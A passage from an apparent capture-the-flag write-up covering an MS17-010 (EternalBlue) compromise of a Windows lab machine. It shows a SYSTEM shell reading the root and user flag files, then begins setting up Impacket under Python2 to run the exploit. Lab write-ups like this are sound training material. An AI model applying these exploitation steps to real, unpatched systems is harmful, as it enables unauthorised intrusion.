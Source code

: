     C:\Windows\system32>



Now just grab the flags:



    C:\Windows\system32>cd \users   

    C:\Users>dir
     Volume in drive C has no label.
     Volume Serial Number is A0EF-1911

     Directory of C:\Users

    21/07/2017  07:56    <DIR>          .
    21/07/2017  07:56    <DIR>          ..
    21/07/2017  07:56    <DIR>          Administrator
    14/07/2017  14:45    <DIR>          haris
    12/04/2011  08:51    <DIR>          Public
                   0 File(s)              0 bytes
                   5 Dir(s)  17,256,050,688 bytes free

    C:\Users>type administrator\desktop\root.txt
    ff548eb7************************
    C:\Users>type haris\desktop\user.txt
    4c546aea************************



### Python Script

In coming back to write this post, I wasn't able to find a Python3
script to do MS17-010. This led to a bit of a tough spot, as my VM was
configured to use [Impacket](https://github.com/SecureAuthCorp/impacket)
with Python3.

#### Create Virtual Environment

I created a virtual environment that would use Python2 with Impacket.
First I cloned Impacket into `/opt`:



    oxdf@parrot$ git clone https://github.com/SecureAuthCorp/impacket.git                               
    Cloning into 'impacket'...
    remote: Enumerating objects: 19128, done.
    remote: Counting objects: 100% (247/247), done.
    remote: Compressing objects: 100% (139/139), done.
    remote: Total 19128 (delta 135), reused 187 (delta 107), pack-reused 18881
    Receiving objects: 100% (19128/19128), 6.56 MiB | 10.85 MiB/s, done.
    Resolving deltas: 100% (14511/14511), done.



In Python3, there's a builtin `venv` module for creating virtual
environment. But for Python2, I need to `apt install virtualenv`. Now
I'll create that environment folder in the Impacket directory using the
`-p` flag to tell it I want Python2:
